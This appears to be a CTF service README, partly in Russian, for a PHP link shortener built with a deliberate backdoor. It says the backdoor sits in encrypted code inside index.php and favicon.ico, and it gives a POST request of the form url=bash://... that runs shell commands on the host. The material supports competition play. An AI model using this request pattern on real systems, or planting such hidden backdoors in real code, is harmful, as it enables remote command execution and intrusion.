 # service_lnks

Cервис коротких ссылок.

* Из уязвимостей только бекдор (Позволяющий выполнять удаленные bash команды)
* Код на php (index.php и favicon.ico)
* Код php закодирован aes для дополнительной сложности (Ключ конечно же там же).
* Со страницы проэксплуатировать бекдор напрямую нельзя (если только js код тут же не модифицировать)

* prepare index.php for service

## Vuln1: Backdoor

You can create execute commands on hosted machine

1. send post to http://%HOST%:3154/ with data:
```
url=bash%3A%2F%2Fls%20-la%20lnks&lnk=testls
```

2. And after this open:

http://%HOST%:3154/testls





